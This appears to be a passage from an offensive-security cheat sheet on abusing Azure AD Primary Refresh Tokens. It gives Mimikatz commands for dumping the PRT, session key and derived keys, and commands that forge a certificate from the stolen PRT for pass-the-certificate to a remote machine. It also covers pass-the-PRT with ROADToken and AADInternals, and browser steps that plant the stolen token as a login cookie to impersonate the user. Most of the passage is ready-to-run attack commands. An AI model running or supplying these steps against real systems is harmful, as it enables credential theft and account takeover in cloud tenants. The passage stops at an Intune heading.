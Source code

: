 Extract PRT, Session key and Tenant ID with Mimikatz. Then extract context key and derived key:

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" "exit"'

Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

Request a certificate with **`PrtToCert`**:

```powershell
python3 RequestCert.py --tenantId 2c240ecc-[SNIP] --prt QVFBQkFBQUFBQUFHVl9idjIxb1FRNFJPcWgwX[SNIP] --userName admin@corp.onmicrosoft.com --hexCtx e096b37dc0d8e5cde438[SNIP] --hexDerivedKey b8a39c7b3b7e7c859b[SNIP]
```

Use the certificate with **`AzureADJoinedMachinePTC`**:

```powershell
python3 Main.py --usercert "admin.pfx" --certpass <pass> --remoteip 192.168.1.2
```

**Pass-the-PRT**

First, extract the PRT in the user session context with a Nonce and **ROADToken.exe**:

```powershell
$TenantId = "2d50cb29-5f7b-48a4-87ce-fe75a941adb6"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"
$Params = @{
 "URI" = $URL
 "Method" = "POST"
}
$Body = @{
 "grant_type" = "srv_challenge"
 }
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce 

ROADToken.exe $Result.Nonce > PRT.txt
```

With **AADInternals** it is possible to request an access token directly from the PRT:

```powershell
New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey -GetNonce
```

* Open a Browser in Incognito mode
* Go to https://login.microsoftonline.com/login.srf
* Press F12 (Chrome dev tools) -> Application -> Cookies
* Clear all cookies and then add one named `x-ms-RefreshTokenCredential` for https://login.microsoftonline.com and set its value to that retrieved from AADInternals
* Mark HTTPOnly and Secure for the cookie
* Visit https://login.microsoftonline.com/login.srf again and we will get access as the user

#### Intune - Cloud to On-Premise
